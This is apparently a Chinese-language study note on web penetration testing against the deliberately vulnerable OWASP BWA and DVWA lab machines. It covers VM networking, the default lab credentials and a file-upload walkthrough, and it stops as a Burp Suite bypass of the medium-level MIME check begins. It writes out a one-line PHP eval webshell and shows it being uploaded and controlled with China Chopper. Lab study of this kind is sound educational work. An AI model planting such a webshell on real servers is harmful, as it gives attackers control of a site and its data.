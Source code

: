 ## 准备



虚拟机的两种联网方式：

- 桥接
- NAT（建议）

![image-20211023201039462](web渗透.imgs/image-20211023201039462.png)





虚拟机网络改成桥接

然后重新设置虚拟机的ip



```
dhclient -r eth0 # 释放eth0的ip
dhclient -v eth0 # 重新获取ip
# 如果不行就直接  dhclient eth0
```



### OWASPBWA的使用

进入系统之后会显示以下内容

![image-20211023203037453](web渗透.imgs/image-20211023203037453.png)

可以访问  [http://192.168.81.130](http://192.168.81.130) 访问webapp

可以通过SSH连接 【192.168.81.130】 到这个系统

在电脑中命令行通过 \\\\192.168.81.130 访问到共享文件夹 

通过 [http://192.168.81.130](http://192.168.81.130/phpmyadmin) 访问到系统管理页面

以上所有访问的用户名均为 `root` 密码为 `owaspbwa`



我们一般用 ssh 连接 owa靶机，用图形界面操作kali

开启kali的ssh连接

```bash
lsof -i :22
service ssh start
systemctl enable ssh
```



如果VMWare的服务没有启动，那么可能是因为Windows中的VMWare的DHCP服务没有启动。



以下两个是常用的靶机

- [Damn Vulnerable Web Application](http://192.168.81.130/dvwa)

- [OWASP Mutillidae II](http://192.168.81.130/mutillidae)



### 文件上传漏洞渗透及防御



```
OWASP Broken Web Applications Project Broken Web Applications（BWA）项目生成一个虚拟机，运行各种

具有已知漏洞的应用程序，供以下人员使用：

- 了解Meb应用程序安全性
- 测试手册评估技术
- 测试自动化工具在编中0.00KB/S
- 测试源代码分析工具
- 观察网络攻击
- 测试MAF和类似的代码技术
```



本实验 使用 http://192.168.81.130/dvwa/vulnerabilities/upload/

文件上传漏洞：

![image-20211023205354721](web渗透.imgs/image-20211023205354721.png)

从图中可以看到，上传文件的时候没有做校验，导致上传 py 脚本成功

![image-20211023205755099](web渗透.imgs/image-20211023205755099.png)

1、文件上传（File Upload）是大部分Web应用都具备的功能，例如用户上传附件、修改头像、分享图片/视频等

2、正常的文件一般是文档、图片、视频等，Web应用收集之后放入后台存储，需要的时候再调用出来返回

3、如果恶意文件如PHP、ASP等执行文件绕过Web应用，并顺利执行，则相当于黑客直接拿到了Webshe11

4、一旦黑客拿到Webshe11，则可以拿到Web应用的数据，删除Web文件，本地提权，进一步拿下整个服务器甚至内网

5、SQL注入攻击的对象是数据库服务，文件上传漏洞主要攻击Web服务，实际渗透两种相结合，达到对目标的深度控制



**低安全级别：服务器可以接受任何类型任何大小的文件。**

如果上传的文件是恶意的文件，我们就可以用一句话木马上传到web，然后用中国菜刀进行渗透，拿到网站的权限。

编写木马

![image-20211023212049075](web渗透.imgs/image-20211023212049075.png)

```php
<?php @eval($_POST['123']);?>
```

上传木马

![image-20211023212147324](web渗透.imgs/image-20211023212147324.png)

用中国菜刀进行连接

![image-20211023212317771](web渗透.imgs/image-20211023212317771.png)

添加之后就拿下了网站的后台

![image-20211023212350485](web渗透.imgs/image-20211023212350485.png)

![image-20211023212419520](web渗透.imgs/image-20211023212419520.png)

**中安全级别**

设置安全级别

![image-20211023211359856](web渗透.imgs/image-20211023211359856.png)

**中安全级别：设置允许接受的mime类型，对不是指定类型的请求进行拦截**



![image-20211023215839042](web渗透.imgs/image-20211023215839042.png)

此时我们需要 burp suite 提供代理服务器

首先在浏览器的网络设置中设置网络代理，将代理功能指向BurpSuite：

![image-20211023220024378](web渗透.imgs/image-20211023220024378.png)

此时在访问网站的时候会显示 “代理服务器拒绝了连接”

![image-20211023220041757](web渗透.imgs/image-20211023220041757.png)

